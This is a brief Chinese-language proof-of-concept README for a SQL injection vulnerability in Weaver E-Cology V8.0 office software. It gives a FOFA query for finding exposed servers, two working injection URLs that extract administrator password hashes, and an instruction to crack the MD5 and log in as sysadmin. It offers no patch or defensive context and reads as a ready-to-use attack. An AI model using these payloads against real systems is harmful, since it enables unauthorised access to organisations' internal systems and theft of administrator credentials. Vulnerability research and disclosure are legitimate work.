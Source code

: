 # 泛微OA E-Cology V8.0 SQL注入漏洞
## 资产收集：
fofa：`app="泛微-协同办公OA"`  
![](./img/login.png)
## POC
- getdata.jsp:`/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager`  
![](./img/E-Cology_sql.png)
- LoginSSO.jsp SQL:`/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManage`  
md5解密后登陆：`sysadmin/md5解密的密码` 